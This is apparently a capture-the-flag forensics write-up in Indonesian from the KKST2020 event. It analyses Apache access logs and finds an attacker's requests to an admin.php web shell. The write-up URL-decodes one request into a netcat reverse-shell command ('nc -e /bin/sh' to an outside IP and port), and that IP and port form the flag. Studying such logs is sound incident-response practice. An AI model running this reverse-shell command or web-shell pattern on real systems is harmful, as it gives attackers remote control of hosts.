 ```sh
192.168.77.41 - - [17/Nov/2020:02:17:43 +0000] "GET /admin/admin.php?0=nc%20999 HTTP/1.1" 500 295 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0"
192.168.77.41 - - [17/Nov/2020:02:17:54 +0000] "GET /admin/admin.php?0=nc%20nc%20nc%20nc%20nc%20nc HTTP/1.1" 500 295 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0"
192.168.77.41 - - [17/Nov/2020:02:22:54 +0000] "GET /admin/admin.php?0=nc%20nc%20nc%20nc%20nc%20nc HTTP/1.1" 500 295 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0"
192.168.77.41 - - [17/Nov/2020:02:22:54 +0000] "GET /favicon.ico HTTP/1.1" 404 492 "http://192.168.77.39/admin/admin.php?0=nc%20nc%20nc%20nc%20nc%20nc" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0"
```



Disitu terlihat banyak sekali aktivitas dari seseorang. Kita dapat melakukan shorting lebih dalam karena sudah terlihat banyak string `nc`.



```sh
root@kkst2020:/var/www/html/admin# grep -e 'admin.php?0=nc' /var/log/apache2/access.log
192.168.77.41 - - [17/Nov/2020:01:49:10 +0000] "GET /admin/admin.php?0=nc%20-e%20/bin/sh%20157.1.12.12%201399 HTTP/1.1" 500 295 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0"
192.168.77.41 - - [17/Nov/2020:02:15:29 +0000] "GET /admin/admin.php?0=nc%20-lvp%201330 HTTP/1.1" 500 295 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0"
192.168.77.41 - - [17/Nov/2020:02:17:43 +0000] "GET /admin/admin.php?0=nc%20999 HTTP/1.1" 500 295 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0"
192.168.77.41 - - [17/Nov/2020:02:17:54 +0000] "GET /admin/admin.php?0=nc%20nc%20nc%20nc%20nc%20nc HTTP/1.1" 500 295 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0"
192.168.77.41 - - [17/Nov/2020:02:22:54 +0000] "GET /admin/admin.php?0=nc%20nc%20nc%20nc%20nc%20nc HTTP/1.1" 500 295 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0"
192.168.77.41 - - [17/Nov/2020:02:22:54 +0000] "GET /favicon.ico HTTP/1.1" 404 492 "http://192.168.77.39/admin/admin.php?0=nc%20nc%20nc%20nc%20nc%20nc" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0"
```



Terlihat pada result paling atas, system melakukan requests `nc` . Dapat didecode dengan url-decode dan hasilnya adalah.

```sh
/admin/admin.php?0=nc -e /bin/sh 157.1.12.12 1399HTTP/1.1"500295"-""Mozilla/5.0(WindowsNT10.0;Win64;x64;rv:82.0)Gecko/20100101Firefox/82.0"
```



flag = **KKST2020{157.1.12.12:1399}**